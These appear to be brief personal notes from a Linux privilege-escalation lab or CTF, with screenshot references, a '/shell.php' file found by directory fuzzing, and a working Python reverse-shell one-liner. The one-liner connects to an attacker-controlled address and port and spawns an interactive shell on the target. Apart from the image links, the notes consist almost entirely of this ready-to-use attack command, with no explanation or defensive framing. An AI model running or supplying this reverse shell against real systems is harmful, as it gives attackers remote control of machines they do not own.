










# Escalate_Linux
06 April 2022
12:40 AM

file found in directory fuzzing
/shell.php

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.43.208",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

